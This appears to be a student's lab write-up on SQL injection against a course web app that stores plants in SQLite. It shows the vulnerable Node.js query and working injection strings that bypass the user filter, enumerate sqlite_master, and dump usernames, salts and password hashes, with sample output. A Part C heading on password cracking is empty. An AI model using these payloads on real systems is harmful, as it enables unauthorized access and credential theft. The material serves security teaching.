 # SQL Injection and Password Cracking
## Part A. Simple SQL injection
The query string inside the `node.js` code:

```js
var sql_query =
  'SELECT name, color, planttype, potsize, shared FROM plants WHERE user_id=' +
  user_id +
  ' AND name LIKE "%' +
  plant + '%";';
```

In SQL format:
```sql
SELECT name, color, planttype, potsize, shared FROM plants
WHERE user_id=user_id
AND name LIKE "%plant%";
```

SQL injection string into the `plant` variable such that it nullifies the `user_id` condition.
```
%" OR name LIKE "%
```


## Part B. SQL injection to steal password hashes
1) Find out the name of the table and columns where user data is stored.

> Every SQLite database has an SQLITE_MASTER table that defines the schema for the database. The SQLITE_MASTER table looks like this:
  ```sql
  CREATE TABLE sqlite_master (
    type TEXT,
    name TEXT,
    tbl_name TEXT,
    rootpage INTEGER,
    sql TEXT
  );
  ```
> For tables, the type field will always be 'table' and the name field will be the name of the table. So to get a list of all tables in the database, use the following SELECT command:
  ```sql
  SELECT name FROM sqlite_master
  WHERE type='table'
  ORDER BY name;
  ```
  -- https://www.sqlite.org/faq.html#q7

```sql
SELECT name, color, planttype, potsize, shared FROM plants
WHERE user_id=user_id
AND name LIKE "%
-"
UNION
SELECT * FROM sqlite_master
WHERE type='table';
--
%";
```

SQL injection string to acquire the names of the tables:
```
-" UNION SELECT * FROM sqlite_master WHERE type='table'; --
```

Output:
```
table	users	users	2
```

SQL injection string to acquire the schema of a table:
```
-" UNION SELECT sql, NULL, NULL, NULL, NULL FROM sqlite_master WHERE name='users'; --
```

Output:
```sql
CREATE TABLE users ( id INTEGER NOT NULL, username VARCHAR(50) NOT NULL, salt VARCHAR(100) NOT NULL, password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )
```


2) Create an SQL injection that will retrieve and display the contents of this table.

```
-" UNION SELECT username, salt, password, NULL, NULL FROM users; --
```


## Part C. Password cracking

